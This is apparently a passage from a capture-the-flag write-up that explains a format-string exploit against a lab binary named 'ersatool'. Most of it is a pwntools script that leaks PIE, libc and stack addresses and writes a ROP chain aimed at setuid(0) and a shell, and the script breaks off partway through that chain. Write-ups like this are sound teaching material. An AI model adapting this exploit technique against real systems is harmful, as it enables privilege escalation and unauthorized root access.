 The final script looks like this. In a first step we leak the piebase and calculate the offset. Now we are able to leak libc by printing the pointer to got_printf. In the next leak are are able to print the stack to get the address of main_ret.
With all the needed addresses leaked we can now build a ropchain where we first set the user id to 0 and then call `/bin/sh` with system. We do this by writing 4 bytes at a time with pwntools `fmtstr_payload`. Credit for the script goes to my teammate FizzBuzz101 whose quick script dev allowed our team to obtain root blood on the machine.

```py
from pwn import *

p = remote('192.168.254.3',8989)
elf = ELF('./ersatool', checksec=False)
libc = ELF('./libc.so.6', checksec=False)

def wait():
    p.recvrepeat(0.3)

wait()
p.sendline('print')
wait()
p.sendline('%p')
leak = int(p.recvuntil('[')[:-1], 16)
elf.address = leak - 0x515f
log.info('pie base: 0x%x', elf.address)
# offset 8
libcleak = '%9$s BBB' + p64(elf.got['printf'])
wait()
p.sendline(libcleak)
libc.address = u64(p.recv(6).ljust(8, '\x00')) - libc.symbols['printf']
log.info('libcbase: 0x%x', libc.address)
wait()
stackleak = '%9$s BBB' + p64(libc.symbols['environ'])
p.sendline(stackleak)
stackleak = u64(p.recv(6).ljust(8, '\x00'))
log.info('stack leak: 0x%x', stackleak)
main_ret = stackleak - 0xf0
poprdi = elf.address + 0x00000000000020bb #: pop rdi; ret;
context(arch='amd64')
# p.interactive()

payload = fmtstr_payload(8, {main_ret:(poprdi & 0xffffffff)})
wait()
assert(len(payload) < 100)
p.sendline(payload)

payload = fmtstr_payload(8, {main_ret + 4:(poprdi >> 32)})
wait()
assert(len(payload) < 100)
p.sendline(payload)

payload = fmtstr_payload(8, {main_ret + 8: 0})
wait()
assert(len(payload) < 100)
p.sendline(payload)

payload = fmtstr_payload(8, {main_ret + 16: (libc.symbols['setuid'] & 0xffffffff)})
wait()
assert(len(payload) < 100)
p.sendline(payload)

payload = fmtstr_payload(8, {main_ret + 20: (libc.symbols['setuid'] >> 32)})
wait()
assert(len(payload) < 100)
```